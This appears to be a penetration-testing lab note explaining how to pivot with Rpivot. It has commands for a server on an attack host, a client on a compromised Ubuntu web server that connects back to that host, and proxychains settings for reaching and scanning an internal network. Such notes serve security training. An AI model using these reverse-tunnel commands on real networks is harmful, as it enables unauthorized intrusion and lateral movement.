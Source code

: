 **2. Scenario Setup**:
- **Attack Host**: 10.10.14.18, running the `Rpivot` server on port 9999.
- **Pivot Host**: Ubuntu web server (10.129.202.64), running the `Rpivot` client to connect to the attack host.
- **Target**: Internal web server (172.16.5.135:80) in the internal network (172.16.5.0/23).
- **Goal**: Use `Rpivot` to create a SOCKS proxy tunnel and access the internal web server via `proxychains` and a browser (e.g., Firefox ESR).

**3. Steps to Use Rpivot for Pivoting**:
- **Step 1: Run Rpivot Server on Attack Host**:
  - Command:
    - `python server.py --server-port 9999 --server-ip 0.0.0.0`
    - Starts the `Rpivot` server on 0.0.0.0:9999, listening for connections from the pivot host.
  - Output:
    - Confirms the server is running and listening on 10.10.14.18:9999.
- **Step 2: Run Rpivot Client on Pivot Host**:
  - Command:
    - `python client.py --server-ip 10.10.14.18 --server-port 9999`
    - Executes the `Rpivot` client on the Ubuntu web server (10.129.202.64), connecting back to the attack host’s server.
  - Output:
    - Confirms connection from 10.129.202.64:35226, establishing the tunnel.
- **Step 3: Configure Proxychains on Attack Host**:
  - Edit `/etc/proxychains.conf`:
    - Set `socks4 127.0.0.1 9050` (or appropriate port if specified in `Rpivot` server).
  - Ensure the `Rpivot` server’s SOCKS proxy port (e.g., 9050) is correctly configured.
- **Step 4: Access Internal Web Server**:
  - Command:
    - `proxychains firefox-esr 172.16.5.135:80`
    - Launches Firefox ESR through `proxychains`, routing traffic via the `Rpivot` SOCKS proxy to access the web server on 172.16.5.135:80.
  - Output:
    - Displays the default Apache2 Ubuntu welcome page, confirming access to the internal web server.
    - `proxychains` logs show DNS requests (e.g., detectportal.firefox.com, example.org) and successful connections via 127.0.0.1:9050.
- **Step 5: Optional NTLM Authentication for Proxy**:
  - Command:
    - `python client.py --server-ip 10.10.14.18 --server-port 8080 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8081`
    - Configures the `Rpivot` client to use an NTLM-authenticated proxy (e.g., for environments requiring proxy authentication).
  - Use Case: Routes traffic through an NTLM proxy for environments with strict outbound filtering.

**4. Practical Application**:
- **Web Server Access**: Use `Rpivot` to access internal HTTP/HTTPS services through a compromised web server.
- **Network Enumeration**: Route tools like Nmap or curl through the SOCKS proxy to scan or interact with internal hosts.
- **Example Workflow**:
  - Compromise the Ubuntu web server and upload the `Rpivot` client script.
  - Start the `Rpivot` server on the attack host.
  - Run the `Rpivot` client on the pivot host to establish the SOCKS tunnel.
  - Configure `proxychains` and access internal services (e.g., 172.16.5.135:80) via browser or other tools.
